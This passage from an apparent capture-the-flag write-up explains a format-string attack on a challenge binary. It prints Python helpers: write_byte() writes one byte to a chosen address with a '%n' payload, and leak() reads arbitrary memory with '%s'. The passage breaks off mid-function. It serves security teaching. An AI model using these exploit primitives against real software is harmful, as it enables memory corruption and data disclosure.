 That's really handy, because it means we can exploit it over and over before letting it return. Instead of the crazy math we had to do in the earlier level, we can just write one byte at a time. And speaking of the last level, I actually solved this level <em>before</em> babyecho, so I didn't have the handy format-string generator that I wrote.

<h3>write_byte()</h3>
I wrote a function in python that will write a single byte to a chosen address:

<pre id='vimCodeElement'>
<span class="Statement">def</span> <span class="Identifier">write_byte</span>(addr, value):
    s = <span class="Constant">&quot;51.492137,-0.192878 &quot;</span> + struct.pack(<span class="Constant">&quot;&lt;I&quot;</span>, addr)
    s += <span class="Constant">&quot;%&quot;</span> + <span class="Identifier">str</span>(value + <span class="Constant">256</span> - <span class="Constant">24</span>) + <span class="Constant">&quot;x%20$n</span><span class="Special">\n</span><span class="Constant">&quot;</span>

    <span class="Identifier">print</span> s
    sys.stdout.flush()
    sys.stdin.readline()
</pre>

Basically, it uses the classic "AAAA%NNx%MM$n" string, which we saw a whole bunch in babyecho, where:

<ul>
  <li>AAAA = the address as a 4-byte string (which will be the address written to by the %n)</li>
  <li>NN = the number of bytes to waste to ensure that %n writes the proper value to AAAA (keeping in mind that the coordinates and address take up 24 bytes already)</li>
  <li>MM = the number of elements on the stack before the format string reads itself (we can figure that out by bruteforce then hardcode it)</li>
</ul>

If that doesn't make sense, read the last blog - this is exactly the same attack (except simpler, because we only have to write a single byte).

<h3>leak()</h3>
Meanwhile, my teammate wrote this function that, while ugly, can leak arbitrary memory addresses using "%s":

<pre id='vimCodeElement'>
<span class="Statement">def</span> <span class="Identifier">leak</span>(address):
    <span class="Identifier">print</span> &gt;&gt; sys.stderr, <span class="Constant">&quot;*** Leak 0x%04x&quot;</span> % address
    s = <span class="Constant">&quot;51.492137,-0.192878 &quot;</span> + struct.pack(<span class="Constant">&quot;&lt;I&quot;</span>, address) + <span class="Constant">&quot; &gt;&gt;&gt;%20$s&lt;&lt;&lt;&quot;</span>
    s = <span class="Constant">&quot;    51.492137,-0.192878 &gt;&gt;&gt;%24$s&lt;&lt;&lt; &quot;</span> + struct.pack(<span class="Constant">&quot;&lt;IIII&quot;</span>, address, address, address, address)
    <span class="Comment">#print &gt;&gt; sys.stderr, &quot;s&quot;, repr(s)</span>
    <span class="Identifier">print</span> s
    sys.stdout.flush()
    sys.stdin.readline() <span class="Comment"># Echoed coordinates.</span>
    resp = sys.stdin.readline()
    <span class="Comment">#print &gt;&gt; sys.stderr, &quot;resp&quot;, repr(resp)</span>
    m = re.search(<span class="Constant">r'&gt;&gt;&gt;(.*)&lt;&lt;&lt;'</span>, resp, flags=re.DOTALL)
    <span class="Statement">while</span> m <span class="Statement">is</span> <span class="Identifier">None</span>:
        extra = sys.stdin.readline()
        <span class="Statement">assert</span> extra, <span class="Identifier">repr</span>(extra)
        resp += extra
        <span class="Identifier">print</span> &gt;&gt; sys.stderr, <span class="Constant">&quot;read again&quot;</span>, <span class="Identifier">repr</span>(resp)
        m = re.search(<span class="Constant">r'&gt;&gt;&gt;(.*)&lt;&lt;&lt;'</span>, resp, flags=re.DOTALL)
    <span class="Statement">assert</span> m <span class="Statement">is</span> <span class="Statement">not</span> <span class="Identifier">None</span>, <span class="Identifier">repr</span>(resp)
    resp = m.group(<span class="Constant">1</span>)